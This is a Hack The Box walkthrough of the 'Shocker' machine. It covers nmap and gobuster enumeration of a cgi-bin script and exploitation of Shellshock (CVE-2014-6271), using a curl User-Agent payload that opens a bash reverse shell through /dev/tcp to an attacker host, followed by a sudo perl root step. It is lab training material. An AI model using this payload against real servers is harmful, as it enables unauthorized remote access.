





# Shocker machine on [hackthebox](https://app.hackthebox.com/)

Written by: Mustafa Musallati.


### Enumeration:


Scanning with nmap:
```
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.34 seconds
```

The website:



As we can see there is nothing much on the website, so let's start some enumeration on it.


We will enumerate some directories using gobuster:

```
gobuster dir -u http://10.10.10.56  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -f
```

Note: is  crucial to add "/" at the end of each request since we are looking for directories, so we used -f .

Result:
```
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

So we have a cgi-bin, let's see if we can see what scripts are in there.

We will search for famous scripts extensions such as sh, pl and cgi.

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x pl,sh,cgi
```

Result:
`/user.sh              (Status: 200) [Size: 119]`


### Exploitation: 

We found a bash script running, let's see if we can check it and exploit it.



Nothing much, but let's search if we can exploit this script to gain a reverse shell on the target.


After searching for a little bit, we found that there is a CVE for an earlier bash version with the id: "CVE-2014-6271", and there is an exploit for it on GitHub, also here we have a good article explaining the vulnerability and how it works: [article by Antony Tran.](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

So let's try and use it to gain a reverse shell:

```
curl -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1 http://10.10.10.56/cgi-bin/user.sh"
```

And we will set our listener:


Now Let's execute our command, and check the listener:



We got a shell and easy user, time for root.

First let's see if we can run something with sudo:



We can execute perl with sudo and no password!!

Very easy let's just use it to spawn a shell:



And very easy simple root....


thanks for reading!

Good hunting!! :)


---

Written by: Mustafa Musallati.
[LinkedIn](https://www.linkedin.com/in/mustafa-musallati-95a159260/)
[instagram](https://www.instagram.com/accaard/)

